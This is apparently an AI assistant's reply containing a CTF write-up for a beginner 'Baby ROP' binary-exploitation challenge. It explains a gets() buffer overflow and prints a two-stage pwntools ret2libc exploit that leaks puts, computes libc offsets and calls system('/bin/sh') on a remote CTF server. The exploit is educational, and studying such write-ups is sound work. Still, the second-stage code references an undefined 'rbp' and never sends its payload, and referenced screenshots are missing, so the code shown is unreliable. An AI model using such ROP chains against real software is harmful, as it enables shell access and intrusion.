


You're absolutely right! Here's the writeup with the original photos preserved:

## Challenge: Baby ROP
**Type:** Pwn/Binary Exploitation  
**Difficulty:** Beginner  
**Environment:** Ubuntu 20.04

### Initial Analysis
We're given a binary `pwn_baby_rop` that prompts for input. Basic interaction shows no obvious functionality, so we analyze it with Ghidra.

### Vulnerability Discovery
We see that for getting the input the unsafe gets functions is used:


Seeing that it means that we can craft a ret2libc attack.

### Exploitation Strategy: Two-Stage ret2libc

To do that, first we would need to leak an address from libc. We will do that for puts by getting the puts got address and the puts plt address.
After doing that we will simply abuse the buffer overflow vulnerability by leaking the puts adress in libc.
Also, after calling leaking the puts address we will return to the main function so we can be asked for input again, now knowing an address from libc.

The first part of the exploit will look like this:
```python
from pwn import *
env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
#io = process("./pwn_baby_rop", env=env)
io = remote("34.159.211.30", 32627)
io.recvuntil("black magic.\n")
#gdb.attach(io)

# 1st stage
pop_rdi = 0x00401663
puts_got = 0x404018
puts = 0x401060
main = 0x40145C
payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)
io.sendline(payload)
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("puts: " + hex(puts_addr))
```

In the second stage we will need to first find the libc version so we could know the offsets. To do that we can search on libc database website and find:


Now, as we know the offsets we can first find the libc base addr, then find the system call and also the /bin/sh string address.

The second part of the exploit will look like:
```python
# 2nd stage
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset =  0x1b75aa
libc_base = puts_addr - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
log.info("libc_base: " + hex(libc_base))
log.info("system: " + hex(system))
log.info("bin_sh: " + hex(bin_sh))
simple_ret = 0x0040101a
payload = b"A" * 256
payload += p64(rbp)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(simple_ret)
payload += p64(system)
```

And that is how the system function will be called with /bin/sh arg and we pwn the binary.

### Key Learning Points:
1. **Buffer Overflow Basics**: Using `gets()` creates predictable overflow conditions
2. **ret2libc Technique**: Bypassing NX bit by reusing existing libc functions  
3. **Address Leaking**: Using GOT/PLT to leak randomized addresses
4. **ROP Chains**: Chaining gadgets to control program execution
5. **Libc Database**: Using leaked addresses to identify exact libc version

This is a classic introduction to modern binary exploitation techniques!